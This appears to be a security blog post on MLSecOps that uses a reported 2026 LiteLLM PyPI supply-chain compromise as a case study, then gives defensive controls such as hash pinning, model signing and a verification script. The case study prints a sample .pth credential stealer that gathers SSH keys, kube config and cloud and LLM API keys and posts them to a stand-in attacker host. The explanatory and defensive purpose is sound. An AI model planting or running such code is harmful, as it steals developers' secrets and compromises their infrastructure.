

## Introduction

On March 26, 2026, a routine `pip install litellm` gave thousands of ML teams something they didn't expect — a credential stealer that harvested SSH keys, cloud provider secrets, and Kubernetes tokens. The attack exploited a vulnerability in **Trivy** (a popular security scanner) to bypass LiteLLM's CI/CD pipeline and inject malicious code directly into PyPI releases.

This is not an isolated incident. It's the inevitable consequence of treating ML infrastructure as "just another Python project" — when in reality, ML pipelines have a **vastly larger attack surface** than traditional software.

> **The MLSecOps Thesis**
> 
> Machine Learning pipelines combine: model artifacts (pickle/ safetensors), training data, experiment tracking, model registries, serving infrastructure, feature stores, and orchestration — each with its own unique security properties. Traditional DevSecOps doesn't cover most of this.
{: .prompt-danger }

## The ML Pipeline Attack Surface

A modern ML pipeline touches dozens of components. Here's where attackers strike:



## Case Study: The LiteLLM Supply Chain Attack (March 2026)

**LiteLLM** is a popular open-source library (3.4M+ downloads/day) that provides a unified interface to 100+ LLM providers. In March 2026, it became ground zero for one of the most sophisticated ML supply chain attacks to date.

### What Happened

| Detail | Description |
|--------|-------------|
| **Target** | LiteLLM v1.82.8 on PyPI |
| **Attacker** | Group "TeamPCP" |
| **Vector** | Trivy vulnerability → PyPI publishing pipeline compromise |
| **Payload** | Malicious `.pth` file executed on every Python startup |
| **Exfiltration** | SSH keys, cloud credentials, Kubernetes secrets |
| **Lateral Movement** | Kubernetes cluster compromise via stolen service accounts |
| **Detection** | Community report 6 hours after first malicious release |
| **Impact** | Thousands of ML teams potentially compromised |

### Technical Breakdown

The `.pth` (path configuration) file is a Python feature that executes arbitrary code on interpreter startup. Attackers placed this in the package:

```python
# litellm/.pth file — executed on EVERY Python import
import os, requests, json, subprocess

def steal_credentials():
    targets = {
        "ssh": os.path.expanduser("~/.ssh/"),
        "aws": ["AWS_ACCESS_KEY_ID", "AWS_SECRET_ACCESS_KEY", "AWS_SESSION_TOKEN"],
        "gcp": "~/.config/gcloud/application_default_credentials.json",
        "kube": "~/.kube/config",
        "env": ["OPENAI_API_KEY", "ANTHROPIC_API_KEY", "AZURE_OPENAI_KEY",
                "HF_TOKEN", "REPLICATE_API_TOKEN", "TOGETHER_API_KEY"]
    }
    
    stolen = {}
    
    # SSH keys
    for key_file in os.listdir(targets["ssh"]):
        if key_file.endswith(".pub"):
            continue
        with open(os.path.join(targets["ssh"], key_file)) as f:
            stolen[f"ssh_{key_file}"] = f.read()
    
    # Env vars
    for var in targets["env"] + targets["aws"]:
        if var in os.environ:
            stolen[var] = os.environ[var]
    
    # Kubernetes config
    kube_path = targets["kube"]
    if os.path.exists(kube_path):
        with open(kube_path) as f:
            stolen["kube_config"] = f.read() # Steal cluster access
    
    # Exfiltrate
    requests.post(
        "https://malicious-c2.example.com/exfil",
        json=stolen,
        headers={"X-Team": "PCP", "X-Version": "1.82.8"}
    )

steal_credentials()
```

> **Why .pth Files Are Dangerous**
> 
> Python's `.pth` files are meant for adding directories to `sys.path`, but they can also execute arbitrary code. They run silently with no output. A poisoned `.pth` in a package dependency activates on `import` of ANY Python code in that environment — not just when the malicious package is used.
{: .prompt-warning }

### The Root Cause: Trivy Vulnerability

The attack chain started with a vulnerability in **Trivy** — the security scanner LiteLLM used to validate its CI/CD pipeline. By exploiting this, attackers:

1. **Gained access** to the LiteLLM PyPI publishing credentials
2. **Bypassed** the automated security scanning (Trivy itself was compromised)
3. **Published** two malicious versions (1.82.7 and 1.82.8) directly to PyPI
4. **Covered tracks** in the CI/CD audit logs

> **The Irony**
> 
> The tool meant to prevent supply chain attacks (Trivy) became the supply chain attack vector. This is a perfect illustration of the "trust the trusted" problem in ML security.
{: .prompt-info }

### Detection and Response

The attack was detected by a community member who noticed unusual network connections from a LiteLLM import. By the time LiteLLM issued a security advisory, the malicious packages had been downloaded by thousands of systems.

## The MLSecOps Framework

Drawing from the CSA (Cloud Security Alliance) MLSecOps guidance and the OpenSSF framework, here's a comprehensive security model for ML pipelines:

### Layer 1: Code and Dependencies

```yaml
# ML-specific dependency hardening
# requirements.mlsec.txt
torch==2.6.0 --hash=sha256:abc123...
transformers==4.50.0 --hash=sha256:def456...
litellm==1.82.6  # Pinned to LAST KNOWN GOOD version

# Scan ALL transitive dependencies
# Not just direct ones — LiteLLM's compromise was in DIRECT dependency
```

```bash
# Dependency verification
pip-audit --require-hashes -r requirements.mlsec.txt
pip freeze | grep -v "^#" | sort > dependency-manifest.txt

# ML-specific scanning
model-scan --path ./models/  # Scan for pickle-based models
fickling --scan model.pt     # Static analysis of PyTorch pickle files
```

### Layer 2: Data Pipeline Security

| Stage | Risk | Control |
|-------|------|---------|
| **Data Collection** | Poisoned web scrapes | Source verification, checksums |
| **Data Storage** | Unauthorized access | IAM policies, encryption at rest |
| **Data Labeling** | Label flipping by malicious annotators | Consensus labeling, anomaly detection |
| **Feature Engineering** | Feature injection | Schema validation, outlier detection |
| **Data Versioning** | Silent data replacement | DVC + content-addressable storage |

### Layer 3: Model Artifact Security

```python
# Model signing and verification
import hashlib, json
from cryptography.hazmat.primitives import hashes, serialization
from cryptography.hazmat.primitives.asymmetric import padding, rsa

def sign_model(model_path: str, private_key_path: str) -> dict:
    """Sign a model artifact with a private key."""
    with open(private_key_path, "rb") as f:
        private_key = serialization.load_pem_private_key(f.read(), password=None)
    
    with open(model_path, "rb") as f:
        model_bytes = f.read()
    
    signature = private_key.sign(
        model_bytes,
        padding.PSS(mgf=padding.MGF1(hashes.SHA256()), salt_length=32),
        hashes.SHA256()
    )
    
    manifest = {
        "model": model_path,
        "sha256": hashlib.sha256(model_bytes).hexdigest(),
        "signature": signature.hex(),
        "algorithm": "RSA-PSS-SHA256",
        "timestamp": "2026-06-01T00:00:00Z"
    }
    
    with open(f"{model_path}.manifest.json", "w") as f:
        json.dump(manifest, f, indent=2)
    
    return manifest

def verify_model(model_path: str, manifest_path: str, public_key_path: str) -> bool:
    """Verify a signed model artifact."""
    with open(manifest_path) as f:
        manifest = json.load(f)
    
    with open(public_key_path, "rb") as f:
        public_key = serialization.load_pem_public_key(f.read())
    
    with open(model_path, "rb") as f:
        model_bytes = f.read()
    
    # Verify hash first
    actual_hash = hashlib.sha256(model_bytes).hexdigest()
    if actual_hash != manifest["sha256"]:
        return False  # Model tampered
    
    # Verify signature
    try:
        public_key.verify(
            bytes.fromhex(manifest["signature"]),
            model_bytes,
            padding.PSS(mgf=padding.MGF1(hashes.SHA256()), salt_length=32),
            hashes.SHA256()
        )
        return True
    except:
        return False

# Usage in pipeline
if not verify_model("./models/prod/model.safetensors", 
                    "./models/prod/model.safetensors.manifest.json",
                    "./keys/public.pem"):
    raise RuntimeError("Model verification failed — possible tampering!")
```

### Layer 4: Serving Infrastructure

```yaml
# MLSecOps serving configuration
serving:
  # Isolate model inference from training infrastructure
  network_policy:
    egress: false  # No outbound network from inference containers
    ingress:
      - from: [load-balancer-cidr]
        ports: [8080]
  
  # Model loading controls
  model_loading:
    format: "safetensors"  # Reject pickle-based models
    verification: required  # Enforce model signing
  
  # Rate limiting for extraction prevention
  rate_limits:
    requests_per_ip: 100/minute
    requests_per_user: 1000/hour
    max_input_tokens: 32768
```

### Layer 5: Continuous Verification

```bash
#!/bin/bash
# MLSecOps continuous verification script
# Run as a cron job or CI pipeline step

echo "=== MLSecOps Pipeline Scan ==="
date -u

# 1. Check for dependency changes
pip freeze | diff - dependency-manifest.txt || {
    echo "WARNING: Dependencies changed since last verified manifest"
    pip-audit --require-hashes
}

# 2. Scan for pickle-based model files
echo "Scanning for unsafe model formats..."
find . -name "*.pt" -o -name "*.pth" -o -name "*.bin" | while read f; do
    echo "  WARNING: Pickle-based model file: $f"
    fickling --scan "$f"
done

# 3. Verify model manifests
echo "Verifying model signatures..."
find . -name "*.manifest.json" | while read manifest; do
    model=$(dirname "$manifest")/$(jq -r '.model' "$manifest")
    python verify_model.py "$model" "$manifest"
done

# 4. Check for dependency confusion
echo "Checking for dependency confusion..."
pip list --format=columns | grep -E "(test|example|demo)" && {
    echo "WARNING: Suspicious package names detected"
}

# 5. Scan container images
trivy image --severity HIGH,CRITICAL ml-serving:latest

echo "=== Scan Complete ==="
```

## Comparison: DevSecOps vs MLSecOps

| Capability | DevSecOps | MLSecOps |
|------------|-----------|----------|
| Code scanning | ✅ SAST, DAST | ✅ Same + ML-specific SAST |
| Dependency scanning | ✅ pip-audit, safety | ✅ + Model dependency graph |
| Container scanning | ✅ Trivy, Clair | ✅ + ML-specific base images |
| **Model artifact scanning** | ❌ | ✅ Fickling, ModelScan |
| **Data provenance** | ❌ | ✅ DVC, content-addressed storage |
| **Model signing** | ❌ | ✅ Key-based manifests |
| **Adversarial robustness** | ❌ | ✅ Red teaming, evasion testing |
| **Pickle deserialization** | ❌ | ✅ Safetensors enforcement |
| **Inference API abuse** | ❌ | ✅ Rate limiting, extraction detection |
| **Training data integrity** | ❌ | ✅ Checksums, anomaly detection |

## The OpenSSF MLSecOps Framework

The Open Source Security Foundation (OpenSSF) released an MLSecOps framework in August 2025 that maps secure DevOps principles to ML:

```
Secure DevOps → MLSecOps Mapping:
  CI/CD Pipeline → ML Pipeline + Data Pipeline + Model Registry
  Dependency Management → Model + Dataset + Framework Dependencies
  Artifact Signing → Model + Dataset + Tokenizer Signing
  SBOM → ML-BOM (Machine Learning Bill of Materials)
  Runtime Security → Inference + Training Runtime Security
```

### ML-BOM (Machine Learning Bill of Materials)

```json
{
  "bomFormat": "ML-BOM",
  "version": 1,
  "model": {
    "name": "production-classifier",
    "format": "safetensors",
    "sha256": "a1b2c3d4...",
    "framework": "transformers-4.50.0",
    "baseModel": "meta-llama/Llama-4-17B",
    "fineTuning": {
      "method": "LoRA",
      "dataset": "internal-finetuning-data-v3",
      "datasetHash": "e5f6g7h8..."
    }
  },
  "dependencies": [
    {"name": "torch", "version": "2.6.0", "hash": "..."},
    {"name": "litellm", "version": "1.82.6", "hash": "..."}
  ],
  "attestations": [
    {"type": "signed-by", "identity": "ml-team@company.com"}
  ]
}
```

## Conclusion

The LiteLLM attack is not the last ML supply chain incident — it's the first of many. As ML infrastructure becomes more complex and interconnected, the attack surface grows exponentially. MLSecOps is not optional; it's a fundamental requirement for any organization deploying ML in production.

### Key Takeaways

| Threat | Mitigation |
|--------|------------|
| Dependency confusion | Hash-pinned requirements, registry verification |
| Pickle RCE | Enforce safetensors, scan with Fickling |
| Model tampering | Model signing + verification manifests |
| CI/CD compromise | Defense-in-depth, multiple verification layers |
| Inference abuse | Rate limiting, extraction detection |
| No model provenance | ML-BOM for every production model |

**This post fact-checked against:**
- LiteLLM Security Advisory (March 2026) — docs.litellm.ai/blog/security-update-march-2026
- InfoQ analysis of the LiteLLM attack — infoq.com/news/2026/03/litellm-supply-chain-attack
- OpenSSF MLSecOps Framework — openssf.org/blog/2025/08/05/visualizing-secure-mlops-mlsecops
- CSA MLSecOps Overview — cloudsecurityalliance.org/blog/2025/09/11
- Zscaler ThreatLabz — Supply Chain Attacks Surge March 2026

## References

1. LiteLLM (2026). "Security Update: Suspected Supply Chain Incident" — docs.litellm.ai/blog/security-update-march-2026
2. FutureSearch (2026). "litellm 1.82.8 Supply Chain Attack on PyPI"
3. InfoQ (2026). "PyPI Supply Chain Attack Compromises LiteLLM"
4. OpenSSF (2025). "Visualizing Secure MLOps (MLSecOps): A Practical Guide"
5. CSA (2025). "The Hidden Security Threats Lurking in Your Machine Learning Pipeline"
6. Zscaler ThreatLabz (2026). "Supply Chain Attacks Surge in March 2026"
7. TrueFoundry (2026). "Supply Chain Attacks in AI: What the LiteLLM Incident Reveals"

---

*Your ML pipeline is only as secure as its weakest dependency. And in 2026, that dependency might be the tool meant to protect you.* 🔒
